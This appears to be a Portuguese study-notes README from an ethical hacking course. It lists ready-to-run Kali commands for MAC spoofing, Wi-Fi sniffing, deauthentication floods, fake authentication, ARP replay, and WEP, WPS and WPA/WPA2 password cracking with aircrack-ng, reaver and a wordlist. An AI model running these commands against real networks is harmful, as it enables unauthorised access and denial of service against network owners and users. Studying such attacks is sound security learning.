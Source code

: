 
# [Ethical Hacking](https://www.udemy.com/course/learn-ethical-hacking-from-scratch)

Mudar o layout do teclado do kali para pt-br
```
setxkbmap -model abnt2 -layout br
```

# Requirements

Aircrack-ng e Reaver
```
sudo apt install net-tools aircrack-ng reaver 
```

Bettercap

### Instalar o GO

Seguir tutorial desse [link](https://tzusec.com/how-to-install-golang-in-kali-linux/). Nele, na etapa de colar as variáveis de ambiente, ao invés de colar no ~/.bashrc, colar no ~/.zshrc. Depois esecutar **source ~/.zshrc**

### Instalar bettercap
```
go get github.com/bettercap/bettercap
# path do executável: $GOPATH/bin/bettercap
# ele já estará adicionado ao path, basta executar o bettercap
```


## Sumário

- [Change MAC](#change-mac)
- [Get MAC](#get-mac)
- [Monitor Mode](#monitor-mode)
- [Sniffing com Airodump-ng](#sniffing-com-airodump-ng)
- Attacks
    - [Deauthentication Attack](#deauthentication-attack)
    - [Fake Authentication Attack](#fake-authentication-attack)
    - [ARP Request Replay Attack](#arp-request-replay-attack)
- Wi-Fi
    - [WEP cracking](#wi-fi-wep-cracking)
    - [WPS cracking](#wi-fi-wps-cracking)
    - [WPA/WPA2 cracking](#wi-fi-wpawpa2-cracking)
- [Bettercap](#arp-spoofing)
#

## Change MAC 

```
ifconfig wlan1 down
ifconfig wlan1 hw ether A0:B1:C2:D3:E4:F5
ifconfig wlan1 up
```

## Get MAC

```
ifconfig -a wlan1 | grep ether
```

#

## Monitor Mode

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
```
#

## Sniffing com Airodump-ng

Utilizado para sniffar redes wi-fis

|||
|-|-|
|BSSID|mac|
|PWR|força do sinal|
|Beacons|broadcast existencia da rede|
|#Data|total de dados trafegados|
|#/s|total de dados trafegados por segundo|
|CH|canal da rede|
|MB|velocidade máxima suportada|
|ENC|encriptação da rede|
|CIPHER|cifra da rede|
|AUTH|autenticação utilizada|
|ESSID|nome da rede|
|STATION|cliente conectado na rede|


### Todas as Redes
```
airodump-ng wlan1
```

### Rede espefífica
```
airodump-ng --channel [canal] --bssid [mac] wlan1
```

### Salvar dados
```
airodump-ng --channel [canal] --bssid [mac] --write [output file] wlan1
```

#

## Deauthentication Attack

Desautentica um cliente de uma dada rede, sem precisar estar conectado na mesma

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo](#rede-espefífica). Deixe este terminal aberto

3. Executar ataque
    ```
    aireplay-ng --deauth 10000000 -a [bssid wi-fi] -c [mac client] wlan1
    ```
#

## Fake Authentication Attack

Se associa a um Wi-Fi, enviando pacotes de autenticação falsos, para aumentar o número de pacotes tráfegados. Utilizado em ataque como [WEP cracking](#wep-cracking).

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto

3. Abra outro terminal e execute o ataque
    -  **num attempts**: número de vezes que o ataque será executado
    - **mac wifi adapter**: mac da interface em modo monitor
    ```
    aireplay-ng --fakeauth [num attempts] -a [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```

#

## ARP Request Replay Attack 

Gera vários pacotes de ARP Request, utilizados para associar um IP a um dado MAC. Utilizado em ataques como [Wi-Fi WEP cracking](#wi-fi-wep-cracking), para forçar a criação de novos IVs. 

1. Associe-se ao wifi alvo, por meio do [Fake Auth Attack](#fake-authentication-attack)

3. Abra outro terminal e execute o ataque 
    - **mac wifi adapter**: mac da interface em modo monitor
    ```
    aireplay-ng --arpreplay -b [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```

#

## Wi-Fi WEP cracking

Utiliza os IVs trafegados nos pacotes da rede Wi-Fi, para tentar descobrir sua senha. 

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto.

3. **[Situacional]** Se o número de pacotes trafegados for baixo, execute o [ARP Request Replay Attack](#arp-request-replay-attack) antes do comando abaixo

3. Abra outro terminal e execute o ataque. O  sniffing_file.cap é a captura gerada no passo 2 ou 3
    ```
    aircrack-ng sniffing_file.cap
    ```
#

## Wi-Fi WPS cracking

1. Verificar se alvo tem wps habilitado
    ```
    wash --interface wlan1
    ```

2. Executar Fake Auth com multiplas tentativas
    ```
    aireplay-ng --fakeauth 100 -a [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```
3. Abra outro Terminal e execute o ataque
    ```
    reaver -vvv --no-associate --bssid [bssid wi-fi] --channel [channel wi-fi] --interface wlan1
    ```
#

## Wi-Fi WPA/WPA2 cracking

Captura o Handshake de um client com o Wi-Fi e exploita essa informação para tentar quebrar a senha a partir de uma lista de senhas (Método força bruta).

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto.

3. Num novo terminal, desautentique um client deste wi-fi, forçando-o a criar um novo handshake
    ```
    aireplay-ng --deauth 4 -a [bssid wi-fi] -c [mac client] wlan1
    ```
4. Interromper sniffing do passo 2 quando o handshake for capturado

5. Executar ataque 
    > [senhas rockyou.txt](https://www.scrapmaker.com/data/wordlists/dictionaries/rockyou.txt)

    > wordlist.txt é a lista de senhas

    ```
    aircrack-ng sniffing_file.cap -w wordlist.txt
    ```

#

# Bettercap

## ARP Spoofing

TODO





